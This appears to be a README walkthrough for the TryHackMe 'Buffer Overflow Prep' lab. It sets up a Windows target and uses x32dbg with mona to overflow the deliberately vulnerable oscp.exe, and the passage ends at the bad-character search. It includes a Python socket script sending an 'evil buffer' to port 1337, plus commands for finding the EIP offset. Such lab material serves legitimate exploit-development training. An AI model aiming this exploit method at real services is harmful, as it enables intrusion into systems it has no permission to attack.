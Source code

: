# Buffer-Overflow-Prep
We're going to learn how to solve 3 tryhackme's stack buffer overflow.

This is the link to the Tryhackme Machine: https://tryhackme.com/room/bufferoverflowprep

# Things that you will need:
You will need x32dbg made by therealdreg: https://github.com/therealdreg/x64dbg-exploiting

[![18eaa8e03e02775805ec70f088604676.png](https://i.postimg.cc/6qzWgzJ9/18eaa8e03e02775805ec70f088604676.png)](https://postimg.cc/Pvpn8W5c)

You will need your OpenVPN from Tryhackme: https://tryhackme.com/access

You will need wfreerdp to get "vulnerable_apps.zip"

You can get it from here: https://ci.freerdp.com/job/freerdp-nightly-windows/arch=win32,label=vs2013/

[![e73bc927e928e9aac8a53960cfb34a08.png](https://i.postimg.cc/15ts4G1q/e73bc927e928e9aac8a53960cfb34a08.png)](https://postimg.cc/kDkkpt4J)

# First Steps

Start the machine in Tryhackme.

Open your OpenVPN and wait to connect to the machine, so we can work.

After downloading it all, We will need to execute this comand on cmd: ```wfreerdp.exe /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea```

[![11fd449aa4140dac4f71db16bbe012b2.png](https://i.postimg.cc/XqgPgzMg/11fd449aa4140dac4f71db16bbe012b2.png)](https://postimg.cc/0KbZkZy6)

Once we connect to the Tryhackme Machine, we can start to work!

On the Desktop is "vulnerable_apps", so we can right click it and make it a zip.

[![ddf3a6b17b9494a291f4f5c02fa15903.png](https://i.postimg.cc/sDqYNJVP/ddf3a6b17b9494a291f4f5c02fa15903.png)](https://postimg.cc/fJ7S3mSk)

Then in the windows machine we can found that we can use Python27 then we can get "vulnerable_apps.zip" via http server.

So knowing this we use on the cmd: ```c:\Python27\python.exe -m SimpleHTTPServer```

[![8ec396ffd688f7e79111b8edcfb31b3c.png](https://i.postimg.cc/g0S83yB6/8ec396ffd688f7e79111b8edcfb31b3c.png)](https://postimg.cc/Z9NWSNmT)

Back on your Windows search on google: ```MACHINEIP:8000```

[![88368624e10a140e81068e70fcea41ac.png](https://i.postimg.cc/SQrqdZf5/88368624e10a140e81068e70fcea41ac.png)](https://postimg.cc/3WdPJF6C)

Download "vulnerable_apps.zip" and unzip it.

# Using x32dgb

We will need a script to execute an exploit on the "oscp.exe"

Tryhackme give us this:

```
import socket

ip = "MACHINE_IP" # Here introduce 127.0.0.1 for local or TryHackme's Machine IP
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

We will start trying the exploit doing it in local, so we neet to introduce in the parameter "ip" 127.0.0.1

Run the program, and open the file "oscp.exe" it is in this path: ```vulnerable-apps/vulnerable-apps/oscp/oscp.exe```

[![7ee528397d8b95aa959aefcb51bca05b.png](https://i.postimg.cc/W1S9zHgG/7ee528397d8b95aa959aefcb51bca05b.png)](https://postimg.cc/dhkRSnW3)

Then you will see something like this:

[![a5255baed8f1aee8570dc9f6c68715b7.png](https://i.postimg.cc/SR1SRLLQ/a5255baed8f1aee8570dc9f6c68715b7.png)](https://postimg.cc/YLgKyWyT)

# Useful codes for x32dgb using mona

```
import mona
mona.mona("help")
mona.mona("config -set workingfolder c:\\logs\\%p")
--------------------------------------------------------------------------------

mona.mona("pattern_create 2000")

mona.mona('bytearray -cpb "\\x00"')

mona.mona('compare -f C:\\logs\\oscp\\bytearray.bin -a ESP')

mona.mona("pattern_offset EIP")

mona.mona("jmp -r esp") 
```

# Starting with x32dgb on "oscp.exe"

Go to Log inside of x32dgb when "oscp.exe" it's open and execute this 3 commands one by one:

```
import mona
mona.mona("help")
mona.mona("config -set workingfolder c:\\logs\\%p")
```
You need to do this everytime you turn on your pc.

If you do this all right you'll see this with our last command:

[![cc593dbe3e7a6ab673d27fe1e4c1e1c7.png](https://i.postimg.cc/05CRfCwb/cc593dbe3e7a6ab673d27fe1e4c1e1c7.png)](https://postimg.cc/3WWcrm9T)

Now, we need to create a pattern, so we can know how much bytes can we put to get to EIP.

```mona.mona("pattern_create 2000")``` Enter this in "Log".

You should see this:

[![c1e9cbf34e1914f2504c149861837c32.png](https://i.postimg.cc/tC0ks0T6/c1e9cbf34e1914f2504c149861837c32.png)](https://postimg.cc/MXDVLF1Z)

Restart and Run your program a few times till it open this will be done everytime that we change the file.py

You need to execute your python3 in your cmd like this: ```c:\YOUR_PATERN_PYTHON3\python.exe YOUR.PY```

[![c5f08318b0473e0b4cf5922b81483227.png](https://i.postimg.cc/pTjBVkDx/c5f08318b0473e0b4cf5922b81483227.png)](https://postimg.cc/8J1vtRKn)

Now in "Log" we need to execute the command: ```"mona.mona("pattern_offset EIP")"``` 

This gonna compare our pattern to get how much bytes we need to get to EIP.

[![6632609ce31c786d0df06b32ed0d0d62.png](https://i.postimg.cc/nzLt6j7v/6632609ce31c786d0df06b32ed0d0d62.png)](https://postimg.cc/v1Cjnm0B)

We see that we need 1978 bytes to get to EIP so we gonna put this on payload: (\x41 means A in ASCII and \x42 means B in ASCII )

[![9509072bfe829744e9818c7d7c1944a8.png](https://i.postimg.cc/85qNMkJM/9509072bfe829744e9818c7d7c1944a8.png)](https://postimg.cc/hzbkqB0t)

We need to restart "oscp.exe" and run it till it's open. Execute your file.py and you should see this on EIP:

[![65dad277ef0a729dc5cc05b235340f9a.png](https://i.postimg.cc/hjqBpD1B/65dad277ef0a729dc5cc05b235340f9a.png)](https://postimg.cc/4Kwq3T0L)

We can see here "\x41" and "\x42" at the top of the stack.

[![49443394b4bce14e67c3cb45bd2d755d.png](https://i.postimg.cc/QCQwC129/49443394b4bce14e67c3cb45bd2d755d.png)](https://postimg.cc/9wfJNRFC)

If you can see this, all is going good! Well done!

Now it's time to search badchars

# Searching Badchars

Go to "Log", execute: ```mona.mona('bytearray -cpb "\\x00"')``` 

This will create a payload without the badchat \x00 that we asume that it's a badchar.

[![ac1ff2ab0df93fab77e2c6006d0f091d.png](https://i.postimg.cc/xdP2prxN/ac1ff2ab0df93fab77e2c6006d0f091d.png)](https://postimg.cc/zL363Q1q)

Paste it all into payload under ```payload+= "\x42" * 4``` 

All like this:

[![e91dc714947f2eb896159a816bc4e94b.png](https://i.postimg.cc/ydC41ZBw/e91dc714947f2eb896159a816bc4e94b.png)](https://postimg.cc/PLyFKNC4)

Now, We need to restart the program and run it again to execute our payload with the file.py

Every time you need to check that EIP got our 4 "\x42"(B).

Afther that go to the bottom zone and right click go to expresion : "esp"

![4fceda96673b99b5a5d7dadab39990bb](https://user-images.githubusercontent.com/107114264/172812663-6484278d-5063-4464-ae04-a44f765bf10b.gif)

